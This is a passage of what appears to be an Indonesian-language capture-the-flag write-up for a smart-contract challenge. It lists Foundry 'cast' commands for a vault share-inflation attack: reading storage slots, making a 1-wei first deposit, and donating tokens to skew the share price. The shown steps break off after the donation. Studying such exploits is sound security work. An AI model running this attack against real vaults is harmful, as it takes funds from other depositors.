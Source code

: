 2. Ambil Vault & Token dari Fortress
```solidity
cast storage $FORTRESS 0 --rpc-url $RPC_URL # baca slot 0 -> Vault
cast storage $FORTRESS 1 --rpc-url $RPC_URL # baca slot 1 -> Token
```

![](vault.png)

3. Buat 1 wei share (deposit pertama)
```solidity
cast send $TOKEN "buyTokens()" --value 1 --private-key $PK --rpc-url $RPC_URL
cast send $TOKEN "approve(address,uint256)" $VAULT 1 --private-key $PK --rpc-url $RPC_URL
cast send $VAULT "deposit(uint256)" 1 --private-key $PK --rpc-url $RPC_URL
```

![](token.png)

4. Donation token ke vault
```solidity
DONATION=500000000000000001 # 0.5 ether + 1 wei
cast send $TOKEN "buyTokens()" --value $DONATION --private-key $PK --rpc-url $RPC_URL
cast send $TOKEN "transfer(address,uint256)" $VAULT $DONATION --private-key $PK --rpc-url $RPC_URL
```
